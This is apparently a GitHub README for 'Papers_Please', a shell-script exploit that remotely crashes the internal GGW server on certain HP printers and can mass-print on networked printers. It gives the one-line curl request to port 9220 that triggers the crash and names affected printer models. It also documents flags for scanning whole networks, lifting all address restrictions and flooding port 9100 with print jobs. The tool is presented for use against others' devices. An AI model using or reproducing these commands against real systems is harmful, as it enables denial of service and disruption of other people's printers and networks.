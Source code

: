 
<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to perform a remote **Denial of Service** against an HP printer by crashing the internal GGW server. Additionally, Papers_Please is capable of **mass printing** documents from one or more printers on a network.

## How It Works

While the inner workings are more complicated, the exploit in its purest form is as follows:
<br><br>
`curl [IP]:9220 -X 'open 99999999'`
<br><br>
Whats happening here is we are telling the internal GGW server to retrieve the process name running on index number 99999999. However upon receiving the request, the GGW server will instantly crash.
At this time it is unknown exactly why the GGW server crashes when receiving such a request as it is well within range of the allowed index number length which is any number <= 19 digits. In addition, any index number 8 or 9 digits in length will cause the GGW server to crash.

## Known Affected Models
| Model | DoS | Mass Print | GGW Version |
| :---:  | :---: | :---: | :---: |
| HP Envy 7640 |  True  |  False  |  Version: 1.0  |
| HP OfficeJet Pro 6978 |  True  |  True  |  Version: 1.0  |

**NOTE**:<br>
While the above list provides known exploitable models, these do not need to be known to an attacker prior to exploiting.

## Required Software

Android users will need to install <a href="https://termux.com/">Termux</a> from the <a href="https://play.google.com/store/apps/details?id=com.termux">Google Play Store</a>.<br>
Termux is only available for **Android 5.0 and later**.

| Package | Version | Platform |
| :---:   | :---:   | :---:    |
| Netcat-openbsd |  1.105-7ubuntu1  |  x86-64  |
| Grep (GNU) |  2.25  |  x86-64  |
| Sed (GNU) |  4.2.2  |  x86-64  |
| Busybox |  1.30.1  |  Android  |
| Iproute2 |  4.3.0  |  x86-64  |
| Parallel | 20161222 (x86-64)\|\|20180222 (Android) |  Both  |
| Curl |  7.47.0-1ubuntu2.12  |  x86-64  |
| Bc |  1.06.95 (x86-64)\|\|1.07.1 (Android)  |  Both  |

**NOTE**:<br>
Exact software versions are not required. They are only present as a reference for debugging purposes. 

## How To Use

Papers_Please is designed to be quick and simple to use, often times not requiring flags in order to run. You can specify a **network range** with the `--network` flag or a **single host** with the `--target` flag. You can **optimize** Papers_Please through the `--jobs`, `--proc`, and `--slots` flags. Optimizations are active by default with values of: 0, 1, and 252 respectively. By default or when passing the `--network` flag, Papers_Please will automatically scan for printers. Automatic scanning can be disabled with the `--no-scan` flag. Additionally Papers_Please can **mass print** by passing the `--papyrus` flag. This will cause Papers_Please to connect to port 9100 (JetDirect) on the remote host, then immediately disconnect. Which in some cases causes a document to be printed. Finally, to **disable all address restrictions**, pass the `--allow-all` flag. By specifying said flag, all public and private IP addresses will be allowed, in addition to all CIDR prefixes less-than or equal to 30.

## Usage

```
./Papers_Please.sh [OPTION]
OPTION:			    DESCRIPTION:
-t, --target={IP}	    Specify a specific
			    target rather than
		     	    all addresses on
			    the network.

-n, --network={IP/CIDR}     Manually specify the
			    network address for
			    the current network
			    you are on.

--papyrus={N}	    	    Number of jobs to
			    send to the printer
			    this should cause
			    the printer to print
			    N number of pages.

-i, --interval={N}  	    The interval before
			    another job is sent
			    to the printer. Where
			    N can be a decimal
			    i.e. 0.1 or a whole
			    number. The default
			    interval is 1.

-j, --jobs={-N|+N|N%|N}     Number of jobs to
			    run. Passes value
			    to parallel.
			    Defaults to 0.

-p, --proc={-N|+N|N%|N}	    Define the maximum
			    N of processes that
			    can be active at a
			    time. Defaults to
			    1.

-s, --slots={-N|+N|N%|N}    The amount of
			    'slots' available
			    to be used by
			    parallel for jobs.
			    Default is 252.

-P, --port={PORT} 	    Specify a specific 
			    port. Useful for 
			    port-forwarded
			    hosts. Port number 
			    is set automatically 
			    based on the attack
			    being preformed.
			    PORT can be any
			    number ranging
			    from 1 to 65535. 

-a, --allow-all		    All address ranges 
			    are allowed. BE CAREFUL 
			    in this mode as it
			    permits scanning of
			    ANY address without
			    restriction.

--no-scan		    Disables the automatic
			    printer discovery scan.
			    By disabling this function
			    the attacker might not
			    know how many hosts were
			    successfully brought
			    down.

--no-check		    Will skip dependency
                            checking.

-q, --quiet		    Suppress output to
			    terminal. Only the
			    progress bar from
			    parallel will be
			    printed to the
			    terminal in this
			    mode.

-v, --version		    Print version
			    information
			    then exit.

-h, --help		    Print help
			    dialog then
			    exit.
```
